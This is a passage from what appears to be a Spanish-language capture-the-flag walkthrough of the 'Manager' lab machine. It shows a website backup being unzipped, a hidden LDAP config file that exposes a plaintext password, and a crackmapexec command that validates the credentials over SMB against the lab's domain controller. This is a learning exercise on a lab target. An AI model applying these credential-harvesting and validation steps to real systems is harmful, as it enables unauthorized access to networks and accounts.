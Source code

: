 Sí existe, nos descargó el **archivo ZIP**.

Vamos a descomprimirlo con **unzip**:
```bash
ls -la
drwxr-xr-x root         root          4.0 KB Sat Oct 12 19:31:08 2024 .
drwxr-xr-x root         root          4.0 KB Sun Oct 13 02:41:13 2024 ..
.rw-r--r-- root         root          698 B  Thu Jul 27 05:35:54 2023 .old-conf.xml
.rw-r--r-- root         root          5.3 KB Thu Jul 27 05:32:30 2023 about.html
.rw-r--r-- root         root          5.2 KB Thu Jul 27 05:32:14 2023 contact.html
drwxr-xr-x root         root          4.0 KB Sat Oct 12 19:31:08 2024 css
drwxr-xr-x root         root          4.0 KB Sat Oct 12 19:31:08 2024 images
.rw-r--r-- root         root           18 KB Thu Jul 27 05:32:22 2023 index.html
drwxr-xr-x root         root          4.0 KB Sat Oct 12 19:31:08 2024 js
.rw-r--r-- root         root          7.7 KB Thu Jul 27 05:32:08 2023 service.html
.rw-rw-r-- berserkwings berserkwings 1021 KB Sat Oct 12 19:28:58 2024 website-backup-27-07-23-old.zip
```
Observa que hay un **archivo oculto XML**.

Veamos su contenido:
```xml
cat .old-conf.xml
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```
Increíble, quién sabe por qué razón se les ocurrió tener ahí una contraseña.

Comprobemos si esa contraseña es válida para el **usuario raven** como lo menciona el **archivo oculto XML** usando **crackmapexec**:
```bash
crackmapexec smb 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123
```
Parece que sí es.
